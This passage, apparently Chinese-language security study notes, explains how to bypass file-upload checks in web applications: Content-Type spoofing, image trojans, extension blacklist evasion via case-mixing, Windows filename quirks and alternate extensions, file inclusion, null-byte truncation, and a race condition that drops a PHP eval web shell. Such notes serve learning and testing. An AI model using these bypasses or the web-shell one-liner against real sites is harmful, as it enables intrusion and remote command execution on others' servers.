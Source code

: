 ####  2.Content-Type检测文件类型
- 原理：服务器对HTTP报头中的Content-Type字段进行检测
- 绕过方法：使用截包工具对Content-Type字段进行修改
#### 3.文件内容检测
- 原理：使用一些函数或其他方法检测文件内容特征
- 绕过方法：截包之后添加伪造的文件头或直接制作图片马

#### 4.后缀黑名单
- 原理：利用正则表达式，过滤上传的文件后缀名，在黑名单之中的文件后缀不允许上传

- 绕过方法：

  - 利用黑名单的漏网之鱼，利用操作系统文件命名规则，利用Web服务组件解析漏洞

    1.大小写混用`pHp`、`aSp`之类（Linux下也可用）

    2.如果服务器是windows，可以利用windows特性，windows会自动去掉不符合命名规则后缀的后缀名

    ```
    test.asp.
    
    test.asp(空格)
    
    test.php.
    
    test.php 
    
    test.php::$DATA
    ```

    3.能被解析的不常见拓展名

    ```
    jsp：jspx、jspf、jsps
    asp：asa、cer、aspx、cdx、ashx、htr、asax
    php：php3、php4、php5、php7、phpt、phtml
    
    ```
    4.配合文件包含

    上传包含木马的文件，使用文件包含，执行其中脚本

    5.条件竞争

    ```php
    1.首先上传一个写Shell的php
    <?php fputs(fopen('shell.php',w),'<?php @eval($_POST["cmd"]);?>');?>，
    while1循环访问该文件，持续上传，直到竞争完成文件创建。
     
    2.循环上传一句话，持续尝试访问该页面。
    ```

    6.00截断

    ```php
    两种情况：一种是%00，一种是0x00
    前者用在GET传参，%00作为URL会被URL解码，对应的是\0
    后者用于POST，POST传送的字符不会经过URL解码，所以需要将其改为十六进制的0x00
    00截断的目的在于，（php基于C）当PHP中的函数将\0视为字符串的终止，因此只有当文件名变量可控并且不会进行去空字符操作的时候，同时有函数调用这个字符串的时候才有效。
    ```
